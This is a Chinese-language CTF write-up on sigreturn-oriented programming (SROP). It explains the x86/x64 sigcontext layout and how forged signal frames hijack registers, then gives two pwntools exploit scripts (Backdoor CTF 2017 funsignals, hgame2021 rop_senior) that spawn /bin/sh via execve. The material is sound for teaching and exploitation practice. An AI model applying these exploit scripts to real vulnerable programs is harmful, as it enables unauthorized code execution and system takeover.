






SROP本质是 sigreturn 这个系统调用，主要是将所有寄存器压入栈中，以及压入 signal 信息，以及指向 sigreturn 的系统调用地址。
对于 signal Frame 来说，会因为架构的不同而有所区别，这里给出分别给出 x86 以及 x64 的 sigcontext 。
- x86
struct sigcontext
{
unsigned short gs, __gsh;
unsigned short fs, __fsh;
unsigned short es, __esh;
unsigned short ds, __dsh;
unsigned long edi;
unsigned long esi;
unsigned long ebp;
unsigned long esp;
unsigned long ebx;
unsigned long edx;
unsigned long ecx;
unsigned long eax;
unsigned long trapno;
unsigned long err;
unsigned long eip;
unsigned short cs, __csh;
unsigned long eflags;
unsigned long esp_at_signal;
unsigned short ss, __ssh;
struct _fpstate * fpstate;
unsigned long oldmask;
unsigned long cr2;
};
- x64
struct _fpstate
{
/* FPU environment matching the 64-bit FXSAVE layout. */
__uint16_t cwd;
__uint16_t swd;
__uint16_t ftw;
__uint16_t fop;
__uint64_t rip;
__uint64_t rdp;
__uint32_t mxcsr;
__uint32_t mxcr_mask;
struct _fpxreg _st[8];
struct _xmmreg _xmm[16];
__uint32_t padding[24];
};
struct sigcontext
{
__uint64_t r8;
__uint64_t r9;
__uint64_t r10;
__uint64_t r11;
__uint64_t r12;
__uint64_t r13;
__uint64_t r14;
__uint64_t r15;
__uint64_t rdi;
__uint64_t rsi;
__uint64_t rbp;
__uint64_t rbx;
__uint64_t rdx;
__uint64_t rax;
__uint64_t rcx;
__uint64_t rsp;
__uint64_t rip;
__uint64_t eflags;
unsigned short cs;
unsigned short gs;
unsigned short fs;
unsigned short __pad0;
__uint64_t err;
__uint64_t trapno;
__uint64_t oldmask;
__uint64_t cr2;
__extension__ union
{
struct _fpstate * fpstate;
__uint64_t __fpstate_word;
};
__uint64_t __reserved1 [8];
};
signal handler 返回后，内核为执行 sigreturn 系统调用，为该进程恢复之前保存的上下文，其中包括将所有压入的寄存器，重新 pop 回对应的寄存器，最后恢复进程的执行。其中，32 位的 sigreturn 的调用号为 77，64 位的系统调用号为 15。
攻击思路（以64位为例）

当系统执行完 sigreturn 系统调用之后，会执行一系列的 pop 指令以便于恢复相应寄存器的值，当执行到 rip 时，就会将程序执行流指向 syscall 地址，根据相应寄存器的值，此时，便会得到一个 shell。
system call chains
这样当每次 syscall 返回的时候，栈指针都会指向下一个 Signal Frame。因此就可以执行一系列的 sigreturn 函数调用。

vsyscall中的syscall；ret片段（地址不受alsr影响）

例题1：Backdoor CTF 2017-funsignals（程序本身存在sigreturn片段）

直接写入 Signal Frame 即可（先往bss段上写入'/bin/sh'）
exp:
from pwn import*
context.update(os = 'linux', arch = 'amd64')
context.log_level= 'debug'
p = process('./funsignals')
#gdb.attach(p,'b *0x1000000B')
syscall_addr = 0x1000000B
new_stack_addr = 0x10000000+0x500
sh_addr = new_stack_addr+0x100
frameExecve = SigreturnFrame()
frameExecve.rax = 0
frameExecve.rdi = 0
frameExecve.rsi = new_stack_addr
frameExecve.rdx = 0x200
frameExecve.rip = syscall_addr
frameExecve.rsp = new_stack_addr
payload = str(frameExecve)
p.send(payload)
frameExecve = SigreturnFrame()
frameExecve.rax = constants.SYS_execve
frameExecve.rdi = sh_addr
frameExecve.rsi = 0
frameExecve.rdx = 0
frameExecve.rip = syscall_addr
payload = str(frameExecve).ljust(0x100,'\x00')+'/bin/sh\x00'
sleep(1)
p.send(payload)
p.interactive()
例题2：hgame2021 week4 rop_senior（需要通过read函数的返值来控制rax进而实现sigreturn）
漏洞函数及其汇编


思路：先往栈上写入一个Signal Frame（实现往bss段上写入数据），通过read实现控制rax进而实现sigreturn，后续思路与之前一直，不过是Signal Frame变成实现execve("/bin/sh",0,0)。
exp：
from pwn import*
context.log_level = 'debug'
context.update(os = 'linux', arch = 'amd64')
p = process('./rop_senior')
read_addr = 0x40063A
syscall_addr = 0x400647
vuln = 0x40062A
new_stack_addr = 0x601000 + 0x500
sh_addr = new_stack_addr+0x120
#gdb.attach(p,'b *0x40064A')
frameExecve = SigreturnFrame()
frameExecve.rax = constants.SYS_read
frameExecve.rdi = 0
frameExecve.rsi = new_stack_addr
frameExecve.rdx = 0x400
frameExecve.rip = syscall_addr
frameExecve.rsp = new_stack_addr
payload = p64(0)+p64(read_addr)+p64(syscall_addr)+'\x00'*8+str(frameExecve)
p.sendafter('best',payload)
sleep(1)
#pause()
payload = p64(0)+p32(syscall_addr)
payload = payload.ljust(15,'\x00')
p.send(payload)
sleep(1)
#pause()
frameExecve = SigreturnFrame()
frameExecve.rax = constants.SYS_execve
frameExecve.rdi = sh_addr
frameExecve.rsi = 0
frameExecve.rdx = 0
frameExecve.rip = syscall_addr
payload = p64(0)+p64(read_addr)+p64(syscall_addr)+'\x00'*8+str(frameExecve).ljust(0x100,'\x00')+'/bin/sh\x00'
p.send(payload)
sleep(1)
#pause()
payload = p64(0)+p32(syscall_addr)
payload = payload.ljust(15,'\x00')
p.send(payload)
p.interactive()